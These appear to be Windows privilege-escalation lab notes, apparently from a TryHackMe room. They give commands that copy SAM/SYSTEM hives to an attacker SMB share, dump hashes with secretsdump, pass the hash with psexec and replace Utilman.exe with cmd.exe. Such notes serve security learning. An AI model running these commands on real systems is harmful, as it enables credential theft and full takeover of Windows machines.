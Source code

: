 ```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

  

# Copy files from target machine

C:\> copy C:\Users\THMBackup\sam.hive \\10.2.18.222\public\

C:\> copy C:\Users\THMBackup\system.hive \\10.2.18.222\public\

  

# retrieve password hashes

python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

  

  

# Pass the hash to gain admin access

python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.210.117

  

# Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

  

# Privilege: SeTakeOwnership

# User can take ownership of any file

# Example, own utilman.exe

C:\> takeown /f C:\Windows\System32\Utilman.exe

  

# Update your privilege level

icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

  

# Now replace the binary

copy cmd.exe utilman.exe

  

# Now when we click on 'Ease of Access' on lock screen, we will get cmd with admin access

  

# Private: SeImpersonate / SeAssignPrimaryToken

```